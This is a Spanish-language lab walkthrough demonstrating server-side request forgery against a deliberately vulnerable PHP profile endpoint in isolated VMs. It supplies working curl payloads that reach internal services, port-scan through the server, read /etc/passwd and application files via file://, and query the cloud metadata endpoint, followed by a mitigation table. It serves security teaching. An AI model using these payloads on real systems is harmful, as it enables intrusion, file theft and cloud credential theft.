

# Demo: Ataque SSRF (API7:2023 / CWE-918)

> **ADVERTENCIA:** Demostracion exclusiva en entorno controlado y aislado.
> Consultar [despliegue_vms.md](despliegue_vms.md) para preparar las VMs antes de iniciar.

## Objetivo

Demostrar como un atacante puede manipular el campo `url_repositorio` en
`POST /backend/crear_perfil.php` para forzar al servidor victima a realizar
peticiones HTTP hacia recursos internos, actuando como proxy no autorizado.

## Vulnerabilidad

| Atributo | Valor |
|---|---|
| OWASP API Security Top 10 | **API7:2023 - Server Side Request Forgery (SSRF)** |
| CWE | **CWE-918: Server-Side Request Forgery (SSRF)** |
| Archivo vulnerable | `backend/crear_perfil.php` (linea 64) |
| Funcion vulnerable | `file_get_contents($url_repositorio)` sin validacion |
| Vector de entrada | Campo POST `url_repositorio` |

## Pre-requisitos

- VMs desplegadas segun [despliegue_vms.md](despliegue_vms.md)
- Checklist de estado sano completado
- Variable de entorno: `VICTIMA=192.168.56.100` (ajustar IP real)

---

## Paso 1: Peticion legitima (baseline)

**Objetivo:** Establecer el comportamiento normal antes de explotar.

```bash
curl -s -X POST http://$VICTIMA:8080/backend/crear_perfil.php \
  -F "nombre=Juan" \
  -F "apellido=Perez" \
  -F "bio=Desarrollador backend" \
  -F "url_repositorio=https://github.com/usuario/proyecto-ejemplo" \
  | python3 -m json.tool
```

**Respuesta esperada:**

```json
{
    "status": "perfil_creado",
    "mensaje": "Perfil guardado correctamente.",
    "url_solicitada": "https://github.com/usuario/proyecto-ejemplo",
    "estado_conexion": "ok",
    "estado_http_externo": "HTTP/1.1 200 OK",
    "preview_repositorio": "<!DOCTYPE html>..."
}
```

**Explicacion:** El servidor contacta la URL externa y devuelve un preview del
contenido. Este es el flujo de negocio esperado.

---

## Paso 2: Acceso a servicio interno (localhost)

**Objetivo:** Demostrar que el servidor actua como proxy hacia servicios locales.

```bash
curl -s -X POST http://$VICTIMA:8080/backend/crear_perfil.php \
  -F "nombre=Atacante" \
  -F "url_repositorio=http://127.0.0.1:5000/repos" \
  | python3 -m json.tool
```

**Respuesta esperada:**

```json
{
    "status": "perfil_creado",
    "url_solicitada": "http://127.0.0.1:5000/repos",
    "estado_conexion": "ok",
    "estado_http_externo": "HTTP/1.0 200 OK",
    "preview_repositorio": "[{\"nombre\": \"proyecto-ejemplo\", \"descripcion\": \"Este es un repositorio de ejemplo legito.\", ..."
}
```

**Explicacion:** El atacante envia una URL que apunta a `127.0.0.1:5000` (la
API mock corriendo en la misma maquina). El servidor la consulta y devuelve el
JSON interno en `preview_repositorio`. Esto confirma que:

1. El servidor no valida el destino de la URL.
2. El atacante puede acceder a servicios que solo son accesibles desde localhost.
3. La respuesta incluye datos internos no expuestos directamente.

**Punto clave para la audiencia:** El atacante descubrio la existencia de una
API interna en el puerto 5000 sin necesidad de escanear la red.

---

## Paso 3: Escaneo de puertos internos

**Objetivo:** Usar diferencias en timing y respuesta para detectar servicios internos.

### 3a. Puerto SSH (22) - tipicamente abierto

```bash
curl -s -X POST http://$VICTIMA:8080/backend/crear_perfil.php \
  -F "nombre=Scan" \
  -F "url_repositorio=http://127.0.0.1:22" \
  | python3 -m json.tool
```

**Respuesta esperada:** `estado_conexion: "ok"` con banner SSH en
`preview_repositorio` (ej. `SSH-2.0-OpenSSH_8.9`), o `error_conexion` si el
servicio rechaza la conexion HTTP.

### 3b. Puerto cerrado (9999)

```bash
curl -s -X POST http://$VICTIMA:8080/backend/crear_perfil.php \
  -F "nombre=Scan" \
  -F "url_repositorio=http://127.0.0.1:9999" \
  | python3 -m json.tool
```

**Respuesta esperada:** `estado_conexion: "error_conexion"`, `preview_repositorio: null`.

### 3c. Comparacion de resultados

| Puerto | estado_conexion | Interpretacion |
|---|---|---|
| 5000 (API mock) | ok + JSON | Servicio HTTP activo |
| 22 (SSH) | ok + banner SSH | Servicio activo (no HTTP) |
| 9999 | error_conexion | Puerto cerrado |

**Explicacion:** El atacante puede mapear la red interna observando las
diferencias en `estado_conexion`, `estado_http_externo` y el contenido de
`preview_repositorio`. Esto es un **oraculo de escaneo de puertos** a traves
del servidor victima.

---

## Paso 4: Lectura de archivos locales (file://)

**Objetivo:** Exfiltrar archivos del sistema de archivos del servidor.

```bash
curl -s -X POST http://$VICTIMA:8080/backend/crear_perfil.php \
  -F "nombre=Exfil" \
  -F "url_repositorio=file:///etc/passwd" \
  | python3 -m json.tool
```

**Respuesta esperada:**

```json
{
    "status": "perfil_creado",
    "url_solicitada": "file:///etc/passwd",
    "estado_conexion": "ok",
    "preview_repositorio": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:..."
}
```

**Explicacion:** PHP `file_get_contents()` acepta el esquema `file://`,
permitiendo leer archivos arbitrarios del sistema. Esto puede exponer
configuraciones, claves SSH, y datos de la aplicacion.

### Variante: leer datos de la aplicacion

```bash
curl -s -X POST http://$VICTIMA:8080/backend/crear_perfil.php \
  -F "nombre=Exfil" \
  -F "url_repositorio=file:///ruta/absoluta/al/proyecto/data/usuarios.txt" \
  | python3 -m json.tool
```

---

## Paso 5 (Opcional): Metadatos cloud

**Objetivo:** Demostrar acceso a credenciales de instancia en entornos cloud.

```bash
curl -s -X POST http://$VICTIMA:8080/backend/crear_perfil.php \
  -F "nombre=Cloud" \
  -F "url_repositorio=http://169.254.169.254/latest/meta-data/" \
  | python3 -m json.tool
```

> Solo funcional si la VM corre en AWS/GCP/Azure con metadata habilitado.
> En VMs locales devolvera `error_conexion`.

---

## Resumen del Ataque



## Mitigacion

| Medida | Descripcion |
|---|---|
| **Allowlist de destinos** | Solo permitir URLs de dominios conocidos (ej. `github.com`) |
| **Bloquear IPs internas** | Rechazar rangos RFC1918, localhost, link-local y metadata cloud |
| **Deshabilitar esquemas** | No permitir `file://`, `gopher://`, `dict://` en `file_get_contents()` |
| **No devolver contenido externo** | Eliminar `preview_repositorio` de la respuesta al cliente |
| **Usar librerias seguras** | Reemplazar `file_get_contents()` por un cliente HTTP con validacion (Guzzle + middleware) |
| **Referencia segura** | Ver rama `versión-asegurada` del repositorio para la implementacion mitigada |

## Referencia de Payloads

Ver [payloads.txt](payloads.txt) seccion 1 para la lista completa de payloads SSRF.
